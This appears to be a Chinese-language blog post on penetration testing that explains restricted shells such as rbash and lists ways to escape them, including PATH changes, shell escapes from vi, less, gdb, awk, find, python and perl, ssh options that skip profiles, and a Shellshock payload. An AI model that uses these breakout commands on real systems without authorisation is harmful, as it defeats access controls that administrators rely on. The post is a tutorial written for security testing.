 ```yaml
---
title: 摆脱受限的shell
layout: post
tags:
  - sec
  - skills
  - rbash
  - information
  - shell
category: 
  - hack
  - skills
comments: true
share: true
---
```


* TOC
{:toc}

在渗透过程中，会遇到有些环境中的shell是受限制的，这些shell环境叫[restricted shell](https://en.wikipedia.org/wiki/Restricted_shell)

<!--more-->

## 受限shell

受限shell环境的命令是有限的，很多不能运行，比如：

- `cd`切换目录
- 设置或者是取消环境变量设置
- 包含`/`的命令
- 不能使用`>`、`>>`、`>|`、`>&`、`>&`重定向操作符
- 不能使用内建命令

为什么会有受限的shell？

受限的shell是为了增加系统的安全性，极大减少攻击性，限制对系统命令的使用，比如router、磁盘管理、网络管理工具的命令。甚至不能使用管理员功能。

受限shell类型大概有：

- rbash
- rsh
- rksh
- Python(lshell)

## 打破受限shell

**了解基本情况：**

尽量找出自己所处环境是什么样子：

- 运行`env`查看环境变量
- 运行`echo $PATH`查找路径设置
- 运行`echo $SHELL`或者`echo $0`查看运行的shell环境
- 查看基本的Unix命令，比如ls,pwd,cd ..,env,set,export,vi,cp,mv

**shell变量和路径设置：**

- 如果`/`允许使用，直接运行`/bin/sh`
- 如果可以进行路径设置、shell变量设置，就可以运行：
  - `export PATH=/bin:/usr/bin:$PATH`
  - `export SHELL=/bin/sh`
- 如果可以复制文件到存在的路径，就可以运行`cp /bin/sh /some/dir/from/PATH; sh`


**深入扩展信息：**

仔细研究可以使用的所有命令参数和附加信息也很有帮助。

有一些系统命令常常可以绕过限制：

- ftp->`!/bin/sh`
- gdb->`!/bin/sh`
- more/less/man->`!/bin/sh`
- vi/vim->`:!/bin/sh`
- scp -S `tmp/getMeOut.sh x y`
- awk 'BEGIN {system('/bin/sh')}'
- find / -name someName -exec `/bin/sh \;`

**逃脱限制：**

- 在远程shell连接加载完成之前执行系统命令
  - `ssh test@IP -t '/bin/sh'`
- 在远程shell开始的时候，不加载限制配置文件
  - `ssh test@IP -t "bash --noprofile"`
- 尝试破壳漏洞
  - `ssh test@IP -t "() { :; }; /bin/bash"` 


**更加深入：**

- 使用`tee`命令
  - echo "your evil code" | tee script.sh
- 通过脚本语言调用shell
  - `python -c 'import os; os.system("/bin/bash")'` 
  - perl -e 'exec "/bin/sh";'
- 历史文件技巧
  - 将一个想要重写的文件中设置HISTFILE变量
  - 将HISTFILE变量从0到100逐渐递增
  - 执行文件中每行写入的内容
  - 登出并重新登陆。这样就将所想写入的内容指向了HISTFILE文件(原文件权限保持不变)

## Refer

- http://pentestmonkey.net/blog/rbash-scp
- https://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells